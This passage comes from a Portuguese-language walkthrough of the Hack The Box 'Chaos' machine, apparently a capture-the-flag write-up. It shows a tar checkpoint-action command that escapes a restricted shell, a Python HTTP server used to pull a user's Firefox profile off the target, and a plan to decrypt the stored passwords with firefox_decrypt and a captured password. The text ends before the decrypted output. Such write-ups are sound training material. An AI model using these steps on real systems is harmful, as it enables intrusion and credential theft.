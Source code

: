 
![15](https://i.imgur.com/4mogxmH.png)


* tar
* ping
* dir


---


Utilizando do Tar para o retorno da shell com:


```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
e concertando o PATH com:


`export PATH=/bin`


ou


```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
![16](https://i.imgur.com/NfkSUNa.png)


## Escalada de privilegios 2/2


Listando os diretorios e arquivos ocultos, temos:


![17](https://i.imgur.com/RWUW40l.png)


Com o diretorio **.mozila** disponivel, podemos traze-lo para nosso ambiente local utilizando:


`python -m SimpleHTTPServer port`


E baixando localmente em nossa maquina, com:

`http://chaos.htb:1919/ --recursive`


![18](https://i.imgur.com/ZOlilEG.png   )


apos o download, vemos que existe um arquivo chamado **bzo7sjt1.default** dentre varios outros. E, utilizando da ferramenta [Firefox_decrypt](https://github.com/unode/firefox_decrypt/blob/master/firefox_decrypt.py), podemos fazer a decodificacao do nosso arquivo *.default. Logo apos o download e execucao da ferramenta, ele nos solicita uma Senha.
Utilizando da senha `jiujitsu` do usuario `ayush` que conseguimos previamente, obtemos a saida do arquivo criptografado:
